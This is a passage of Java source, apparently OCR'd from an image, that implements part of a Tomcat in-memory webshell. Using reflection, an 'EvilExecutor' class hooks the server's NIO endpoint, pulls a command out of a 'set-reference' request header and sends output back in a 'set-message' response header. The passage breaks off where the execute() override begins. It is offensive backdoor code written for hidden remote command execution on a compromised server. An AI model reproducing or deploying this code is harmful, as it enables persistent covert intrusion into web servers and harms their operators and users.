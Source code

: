 ```java
                return declaredField.get(obj);
            } catch (Exception e) {
                clazz = clazz.getSuperclass();
            }
        }
        return null;
    }

    public Object getNioEndpoint() {
        Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            try {
                if (thread.getName().contains("Poller")) {
                    Object target = getField(thread, "target");
                    return getField(target, "this$0");
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        return new Object();
    }

    class EvilExecutor extends ThreadPoolExecutor {
        public EvilExecutor(int corePoolSize, int maximumPoolSize, long keepAliveTime, TimeUnit unit, BlockingQueue<Runnable> workQueue, ThreadFactory threadFactory) {
            super(corePoolSize, maximumPoolSize, keepAliveTime, unit, workQueue, threadFactory);
        }
        public String getRequest() {
            try {
                Object nioEndpoint = getNioEndpoint();
                Object[] objects = (Object[]) getField(getField(nioEndpoint, "nioChannels"), "stack");
                ByteBuffer heapByteBuffer = (ByteBuffer) getField(getField(objects[0], "appReadBufHandler"), "byteBuffer");
                String req = new String(heapByteBuffer.array(), StandardCharsets.UTF_8);
                String cmd = req.substring(req.indexOf("set-reference") + "set-reference".length() + 1, req.indexOf("\r", req.indexOf("set-reference")) - 1);
                return cmd;
            } catch (Exception e) {
                e.printStackTrace();
                return null;
            }
        }

        public void getResponse(byte[] res) {
            try {
                Object nioEndpoint = getNioEndpoint();
                ArrayList processors = (ArrayList) getField(getField(getField(nioEndpoint, "handler"), "global"), "processors");
                for (Object processor: processors) {
                    RequestInfo requestInfo = (RequestInfo) processor;
                    Response response = (Response) getField(getField(requestInfo, "req"), "response");
                    response.addHeader("set-message", new String(res, StandardCharsets.UTF_8));
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        @Override
        public void execute(Runnable command) {
```